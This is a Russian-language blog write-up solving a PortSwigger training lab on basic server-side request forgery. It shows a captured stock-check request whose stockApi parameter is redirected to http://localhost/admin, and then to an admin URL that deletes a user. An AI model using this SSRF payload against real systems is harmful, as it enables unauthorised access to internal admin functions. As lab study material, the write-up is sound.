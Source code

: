 ```yaml
---
title: "Basic SSRF against the local server"
date: 2025-08-21
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/ssrf-apprentice/ssrf/lab-basic-ssrf-against-localhost"
classes: wide
---
```

{% raw %}
Эта лаба содержит уязвимость **SSRF** (Server-side request forgery).

Нужно получить доступ к интерфейсу админа `http://localhost/admin` и удалить пользователя `carlos`.

```
https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net/
```

## Solution

Следуя из задачи, нам нужно найти место на сайте, где используется обращение по `HTTP` на сервер.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/1.png){: height="200" .align-center}

При нажатии на кнопку `Check stock` отправляется `HTTP`-запрос на внешний ресурс, и результат подставляется на место вызова.

```http
POST /product/stock HTTP/2

Host: 0a0400cb04d88ca581104ddf00b90037.web-security-academy.net
Cookie: session=EqA7ic9vbBVvFyCUEHLcOxMY8ACPeOyI
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D3
```

Заменим `stockApi` на `http://localhost/admin`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/2.png){: height="200" .align-center}

Мы получили страницу админ панели. Теперь нам нужно узнать, с помощью какого запроса происходит удаление пользователя.

```html
</header>
<section>
	<h1>Users</h1>
	<div>
		<span>wiener - </span>
        <a href="/admin/delete?username=wiener">Delete</a>
	</div>
    <div>
        <span>carlos - </span>
		<a href="/admin/delete?username=carlos">Delete</a>
	</div>
</section>
```
{% raw %}

Из кода страницы понятно, что для удаления пользователя `carlos` нам нужно отправить следующий `HTTP`-запрос: `http://localhost/admin/delete?username=carlos`. Отправим запрос и проверим результат.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/3.png){: height="200" .align-center}
